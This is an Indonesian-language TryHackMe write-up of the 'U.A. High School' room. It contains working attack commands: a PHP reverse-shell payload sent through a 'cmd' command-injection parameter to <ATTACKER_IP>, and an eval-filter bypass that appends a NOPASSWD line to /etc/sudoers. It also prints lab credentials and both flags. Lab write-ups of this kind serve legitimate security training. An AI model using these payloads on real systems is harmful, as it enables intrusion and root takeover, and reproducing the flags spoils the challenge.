  # U.A. High School — TryHackMe Writeup

**Target:** U.A. High School  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web, RCE, Steganography, Privilege Escalation  

---

## Recon

Dimulai dengan nmap untuk mengetahui potensi attack surface dan mapping service yang berjalan.

```bash
nmap -sC -sV -T4 <TARGET_IP> -o nmap.txt
```



```
22/tcp  open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp  open  http  Apache httpd 2.4.41 (Ubuntu)
```

---

## Web Enumeration

Setelah mengetahui HTTP berjalan di port 80, langsung dicek ke browser sambil menjalankan gobuster untuk fuzzing directory.

```bash
gobuster dir -w ~/wordlists/common.txt -u http://<TARGET_IP>/
```



Ditemukan endpoint `/assets` dengan status 301. Saat diakses melalui browser, direktorinya kosong — tidak ada listing yang terlihat. Kemungkinan masih ada sesuatu di balik endpoint ini, jadi fuzzing dilanjutkan satu level lebih dalam.

```bash
gobuster dir -w ~/wordlists/common.txt -u http://<TARGET_IP>/assets
```



Ditemukan dua endpoint: `/images` yang mengembalikan 403, dan `/index.php` yang mengembalikan 200 dengan blank page.

`/images` forbidden berarti direktori ada tapi tidak bisa diakses langsung. `/index.php` blank page menarik — dalam beberapa kasus, file PHP yang terlihat kosong sebenarnya memiliki parameter tersembunyi yang belum diketahui. Dicoba fuzzing parameter menggunakan wordlist custom.

```
id
page
file
path
view
action
cmd
debug
lang
module
include
template
```

```bash
ffuf -w param.txt -u "http://<TARGET_IP>/assets/index.php?FUZZ=id"
```



Dari hasil ffuf, hanya parameter `cmd` yang menghasilkan response size berbeda dari yang lain. Value `id` digunakan sebagai payload awal karena hampir selalu tersedia pada sistem Linux dan menghasilkan output yang mudah dikenali. Jika output id berhasil dikembalikan, maka command execution dapat dipastikan berhasil

```bash
curl "http://<TARGET_IP>/assets/index.php?cmd=id" -i
```

Aplikasi tidak mengembalikan output command secara langsung, tetapi meng-encode hasilnya dalam format Base64 sebelum dikirim ke client.



Ini mengindikasikan RCE melalui celah command injection pada parameter URL.

---

## Initial Foothold — Reverse Shell

Setelah command execution tervalidasi, langkah berikutnya adalah memperoleh interactive shell.

```bash
curl "http://<TARGET_IP>/assets/index.php?cmd=<PAYLOAD>"
```
Payload sebelum URL encoding:

```php
php -r '$sock=fsockopen("<ATTACKER_IP>",9004);exec("bash <&3 >&3 2>&3");'
```

Payload yang dikirim melalui parameter `cmd`:

```text
php%20-r%20%27%24sock%3Dfsockopen%28%22<ATTACKER_IP>%22%2C<PORT>%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B
```

```bash
nc -lvnp 9004
```



Shell berhasil didapatkan sebagai `www-data`.

---

## Post Exploitation — Credential Hunting

Setelah mendapat shell, dicari file yang bisa dibaca oleh user saat ini.

```bash
find / -user $(whoami) -type f 2>/dev/null
```

Ditemukan file menarik: `/var/www/Hidden_Content/passphrase.txt`. Isinya adalah string base64.

```
QWxsbWlnaHRGb3JFdmVyISEhCg==
```

Setelah di-decode:

```
AllmightForEver!!!
```

Belum jelas ini digunakan untuk apa. Hipotesis pertama: ini adalah password untuk user `deku` yang ditemukan di `/home`. Dicoba dengan `su deku` — gagal. Hipotesis kedua: ini adalah password SSH untuk deku. Dicoba — juga gagal.

Pencarian dilanjutkan. Setelah menjalankan ulang `find / -user $(whoami) -type f 2>/dev/null`, ditemukan dua file image:

```
/var/www/html/assets/images/yuei.jpg
/var/www/html/assets/images/oneforall.jpg
```

Kedua image didownload ke mesin attacker untuk dianalisis.

```bash
wget http://<TARGET_IP>/assets/images/yuei.jpg
wget http://<TARGET_IP>/assets/images/oneforall.jpg
```

`yuei.jpg` adalah image yang digunakan sebagai background halaman utama — tidak ada yang aneh. Tapi `oneforall.jpg` tidak bisa dibuka, dan yang lebih mencurigakan, image ini tidak pernah muncul di halaman web manapun meski tersimpan di direktori assets.

Dicek header file menggunakan `xxd`.

```bash
xxd oneforall.jpg | head
```



```
00000000: 8950 4e47 0d0a 1a0a  →  PNG header
```

File berekstensi `.jpg` tapi magic bytes-nya adalah PNG — ini tidak normal dan mengindikasikan file ini telah dimanipulasi atau disembunyikan sesuatu di dalamnya. Header diperbaiki menggunakan MagicBytes tool [MagicBytes](https://github.com/Haxrein/MagicBytes)



Setelah header diperbaiki, gambar berhasil dibuka.


Gambar ini tidak pernah terlihat saat menjelajahi web — semakin mencurigakan. Karena file ini jelas bukan asset biasa, dicoba menggunakan `steghide` untuk mengekstrak kemungkinan data tersembunyi di dalamnya.

```bash
steghide extract -sf oneforall.jpg
```

`steghide` meminta passphrase. Passphrase `AllmightForEver!!!` yang ditemukan sebelumnya di `Hidden_Content` dicoba — meski sudah gagal sebagai password SSH maupun `su`, mungkin ini peruntukannya.



Berhasil. Ditemukan `creds.txt` tersembunyi di dalam image dengan isi:

```
deku:One?For?All_!!one1/A
```

---

## Lateral Movement — SSH sebagai deku

```bash
ssh deku@<TARGET_IP>
# password: One?For?All_!!one1/A
```



---

## Privilege Escalation — eval Injection via feedback.sh

Setelah mendapat shell deku, reflek pertama adalah cek sudo permission.

```bash
sudo -l
```



Diminta password — digunakan password yang sama dengan SSH. Ternyata deku dapat menjalankan `/opt/NewComponent/feedback.sh` sebagai root.

Script dibuka untuk dipahami cara kerjanya:

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form"
echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && \
     "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && \
     "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"
    echo "$feedback" >> /var/log/feedback.txt
else
    echo "Invalid input. Please provide a valid input."
fi
```

Berbeda dengan `echo`, `eval` akan melakukan parsing ulang terhadap string yang diterimanya sebagai sebuah perintah shell. Akibatnya operator shell seperti >> tidak dicetak sebagai teks biasa, tetapi diproses sebagai operator redirection. Ada filter yang memblokir banyak karakter berbahaya, namun `/` dan `>` tidak difilter. Dua karakter ini sudah cukup untuk menulis ke file arbitrary sebagai root.

Rencananya: jalankan script sebagai root, lalu gunakan input untuk menambahkan deku ke `/etc/sudoers`.

```bash
sudo /opt/NewComponent/feedback.sh
```

Input saat diminta feedback:

```
deku ALL=NOPASSWD: ALL >>/etc/sudoers
```
Payload tersebut tidak menjalankan command tambahan, tetapi memanfaatkan operator `>>` yang masih lolos dari filter untuk menambahkan baris baru ke file `/etc/sudoers` sebagai root.

Verifikasi:

```bash
sudo -l
```

```
(root) NOPASSWD: ALL
```

Spawn root shell:

```bash
sudo /bin/bash
```



### User Flag

```
THM{W3lC0m3_D3kU_1A_0n3f0rAll??}
```

### Root Flag

```
THM{Y0U_4r3_7h3_NUm83r_1_H3r0}
```

---

## Takeaway

Dua poin penting dari room ini. Pertama, blank page di endpoint PHP bukan berarti tidak ada yang bisa dieksploit — parameter fuzzing bisa mengungkap attack surface yang tidak terlihat dari UI. Kedua, artifact yang tampaknya tidak berguna seperti passphrase yang gagal dipakai sebagai password, bisa memiliki fungsi lain di tahap eksploitasi yang berbeda. Menyimpan semua temuan dan mencoba ulang di konteks yang berbeda adalah kebiasaan yang worth dipertahankan.
